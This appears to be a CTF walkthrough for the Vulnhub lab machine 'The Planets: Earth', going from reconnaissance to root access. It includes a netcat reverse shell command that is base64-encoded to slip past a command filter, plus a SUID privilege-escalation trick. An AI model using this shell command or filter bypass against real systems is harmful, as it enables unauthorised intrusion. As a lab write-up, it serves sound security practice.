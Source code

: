 # The Planets: Earth CTF - Vulnhub Machine
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **The Planets: Earth** CTF challenge on [Vulnhub](https://www.vulnhub.com/entry/the-planets-earth,755/). 
---


we found open ports 22, 80 and 443

![scn](imgs/scn.png "scn")

we also need to add `earth.local` and `terratest.earth.local` to /etc/hosts

![pg](imgs/pg.png "pg")

from feroxbuster scan we know about hidden directory /admin

![fr](imgs/fr.png "fr")

![l](imgs/l.png "l")

in the robots.txt we found /testingnotes.*

![rb](imgs/rb.png "rb")

in the robots.txt we found testdata.txt and `terra` username

![tn](imgs/tn.png "tn")

from note we see that testdata.txt was used to test encryption, so it might be a key to a message

we can replicate the same result by using form on the website and cyberchef

![c1](imgs/c1.png "c1")

![c2](imgs/c2.png "c2")

this means we can now reverse the first three messages on the site

first we need to decode from hex and then use XOR funmction (From HEX -> XOR (with the key from testdata.txt with UTF-8 encoding))

![cc](imgs/cc.png "cc")

now we can login to /admin panel, and we can execute some commands as apache

![id](imgs/id.png "id")

i tried simple reverse shell but there seems to be a some kind of filter

![r](imgs/r.png "r")

we can evade filter by using base64, first we encode reverse shell command with base64, and then we decode it and pipe it to bash

```
BASE64 ENCODING:
$ echo "nc -c /bin/bash 192.168.X.X 7777" | base64

FORM:
$ echo "previous command result" | base64 -d | bash
```

now we have shell access

![rs](imgs/rs.png "rs")

looking into folders we see /var/earth_web, there we can find a user flag

![u](imgs/u.png "u")

after running linpeas we see some unknown SUID binary

![sd](imgs/sd.png "sd")

we can download it and analyze it with ltrace

```
$ chmod +x reset_root
$ ltrace ./reset_root
```

![lt](imgs/lt.png "lt")

we see that program is accessing some files, but we dont have them on machine, we need to create them

```
$ touch /dev/shm/kHgTFI5G
$ touch /dev/shm/Zw7bV9U5
$ touch /tmp/kcM0Wewe
$ /usr/bin/reset_root
```

![b](imgs/b.png "b")

we found some password

this is the root password we can now swtich to root

we have root flag and root access 

![rf](imgs/rf.png "rf")

# MACHINE PWNED

